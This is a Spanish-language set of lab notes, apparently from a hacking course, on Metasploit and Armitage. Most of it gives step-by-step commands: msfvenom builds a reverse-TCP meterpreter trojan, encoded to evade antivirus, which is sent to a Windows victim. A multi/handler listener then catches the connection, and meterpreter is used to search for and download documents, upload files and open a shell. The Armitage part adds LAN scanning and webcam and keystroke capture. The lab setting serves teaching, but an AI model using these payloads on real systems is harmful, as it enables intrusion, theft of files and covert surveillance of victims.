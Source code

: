 EJERCICIO USO METASPLOIT

1. Podemos ver la carpeta con los archivos de Metasploit Framework

**_cd /usr/share/metasploit-framework/_**

1. Ahora ejecutamos la consola de Metasploit: **_msfconsole_**
2. Ahora podemos buscar de la siguiente forma: **_search Type: exploit_**
3. Podemos aplicar filtros ejemplo: **_search Type: exploit platform:windows_**
4. Buscar vulnerabilidades comunes: **_search cve:2017_**
5. Quiero atacar un sistema especifico: **_search name:wordpress_**
6. Si queremos usarlo: use &lt;ruta/nombre&gt;

(**_use exploit/unix/webapp/wp_total_cache_exec_**)

1. Dentro podemos ver los objetivos: **_show targets_**
2. Podemos ver más información: **_show info_**
3. Podemos ver las opciones: **_show Options_**
4. Modificar su opción de IP REMOTE HOST: set RHOST &lt;IP OBJETIVO&gt;
5. Volvemos a ver las opciones con **show Options** y veremos la IP configurada
6. Ahora veremos los Payloads útiles relacionados a este exploit: **_show payloads_**
7. Y podemos usar el payload de igual forma que antes con **_use &lt;name/ruta&gt;_**
8. Dentro podemos ver las opciones del Payload con **_show options_**
9. Y podemos establecer nuestra configuración del LOCAL HOST:

**_set LHOST &lt;IP MAQUINA ATACANTE&gt;_**

1. Y después de realizar todas las configuraciones de las opciones simplemente ejecutamos: **_exploit_**

Esto no hará nada en específico ya que faltarían más opciones para poder ver un resultado ya que esto solo es una explicación de cómo utilizar Metasploit framework en una prueba de ejemplo.


EJERCICIO CREACION DE TROYANO E INFILTRACION A OBJETIVO

1. En la terminal de Kali levantaremos el servicio PostgreSQL:

**_service postgresql start_**

1. Y abrimos la consola Metasploit: **_msfconsole_**
2. Ejecutamos: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;IP KALI&gt; LPORT=&lt;5555&gt; -f exe -e x86/shikata_ga_nai -i 10 > trojan.exe** (Mas adelante explicare cada configuración)
3. Creado el archivo deberíamos tenerlo en /Home por lo que copiaremos y meteremos a la carpeta creada (winmount) en la práctica pasada conectada a la maquina windows para enviar el troyano a la maquina víctima.
4. Ahora en la consola de Metasploit ejecutar: **_use multi/handler_**
5. Luego **_set payload windows/meterpreter/reverse_tcp_**
6. Establecemos el host local: **_set LHOST &lt;IP MAQUINA KALI&gt;_**
7. Y el Puerto: **_set LPORT 5555_**
8. Y ejecutamos: **_exploit_**
9. Regresamos a la maquina windows y volvemos a ejecutar el troyano
10. Abierto el nuevo menú de meterpreter al establecer conexión con la maquina victima vemos la ayuda con el comando **_help_**
11. Si queremos ver información del equipo ejecutamos: **_sysinfo_**
12. Si queremos ver el directorio en el que estamos en la maquina windows a través de Kali: _ls_
13. Para ver configuraciones de red: **_ipconfig_**
14. Queremos buscar los archivos (.doc) en la maquina: **_search -f \*.doc_**
15. Igual se puede con cualquier otro archivo, como ejemplo (.txt)
16. Y si queremos descargarlo: download &lt;dirección del documento&gt; (Recuerda cambiar las barras a (/))
17. Y de igual forma podemos subir un archivo**_: upload &lt;dirección origen kali&gt; &lt;dirección destino windows&gt;_** (Utilizando (\\) en esta última)
18. Usar la consola de windows: **_Shell_**

EXTRA

- El comando **msfvenom** es el comando principal de Metasploit Framework que se utiliza para generar payloads personalizados.
- **(-p windows/meterpreter/reverse_tcp**) Especifica el payload que se utilizara, en este caso es un payload para windows que establece una conexión de Shell inversa usando el módulo Meterpreter de Metasploit Framework.
- **LHOST=&lt;IP KALI&gt;** Especifica la dirección IP del host atacante, es decir, la dirección IP de Kali Linux, donde se enviarán las conexiones de retorno del sistema objetivo.
- **LPORT=&lt;5555&gt;** Esta opción especifica el puerto en el que escuchará el sistema Kali Linux para las conexiones de retorno del sistema objetivo. Aquí, estamos utilizando el puerto 5555, pero puedes cambiarlo según tus necesidades.
- **(-f exe)** Esta opción especifica el formato de salida del payload generado. En este caso, estamos generando un archivo ejecutable de Windows (.exe).
- **(-e x86/shikata_ga_nai)** Esta opción especifica el encoder que se utilizará para codificar el payload y evadir la detección de antivirus. En este caso, estamos utilizando el encoder x86/shikata_ga_nai, que es un encoder polimórfico disponible en Metasploit Framework.
- **(-i 10)** Esta opción especifica el número de iteraciones que se utilizarán para codificar el payload. Cuantas más iteraciones, más difícil será para los antivirus detectar el payload. Aquí, estamos utilizando 10 iteraciones.
- **(> trojan.exe)** Esta parte del comando redirige la salida del payload generado al archivo trojan.exe, que es el nombre del archivo que se generará y que contendrá el payload.
- **use multi/handler:** Este comando indica a Metasploit que se utilizará el módulo multi/handler, el cual es responsable de escuchar las conexiones entrantes de varios tipos de payloads. Seleccionar este módulo prepara Metasploit para recibir la conexión que será establecida por el payload que generamos previamente con msfvenom.
- **set payload windows/meterpreter/reverse_tcp**: Este comando configura el tipo de payload que se espera recibir en el handler. En este caso, estamos configurando el payload para Windows que establece una conexión de Shell inversa usando el módulo Meterpreter de Metasploit Framework y el método reverse_tcp.


EJERCICIO EXPLORACION HERRAMIENTA ARMITAGE

1. Levantar el servicio postgresql en la terminal
2. Ejecutamos Armitage: **_armitage_**
3. Damos clic en **Connect** y **Yes**
4. Se mostrará la interfaz GUI con 3 Paneles
5. Nos vamos a la opción **Armitage>Preferences**
6. Buscamos la opción con nombre **require_exploit_rank** y el valor lo cambiamos a **poor**
7. Ahora comenzaremos escaneando los hosts en **Hosts>Nmap Scan>Quick Scan (OS detect)**
8. Ingresamos el rango de la LAN en mi caso es (192.168.0.0/24) y se nos mostraran las maquinas en la red
9. Podemos seleccionar la maquina objetivo y con clic derecho ver los servicios
10. También seleccionándola y en las opciones superiores **Attacks>Find Attacks**
11. Ahora con clic derecho a la maquina objetivo tendremos la opción **Attack** con una variedad de ataques para la máquina.
12. Ahora crearemos un payload en el panel izquierdo **payload>windows>meterpreter>reverse_tcp**
13. Abierto el menú yo elegiré el **LPORT 9090**
14. En **Output** elegiremos **exe** y finalmente **Launch**
15. Y guardaremos el documento en el escritorio con el nombre **Virus101.exe**
16. En nuestro caso lo volvemos a mandar por la carpeta compartida entre las 2 máquinas de la practica 5.8
17. De nuevo en Armitage abrimos el documento de antes (reverse_tcp), elegimos el puerto 9090, Output multi/handler y Launch
18. Ahora ejecutamos el virus en la maquina windows
19. Y ahora el Logo de la maquina windows habrá cambiado al igual de la nueva consola
20. Y tendremos una nueva opción llamada **Meterpreter 1** al dar clic derecho en la maquina
21. De los cuales podremos usar para Explorar Archivos en la máquina, abrir su Shell de comandos, tomar capturas de pantalla, abrir su webcam, o podemos observar las pulsaciones de tecla(Esta última va a tardar un poco en iniciar)
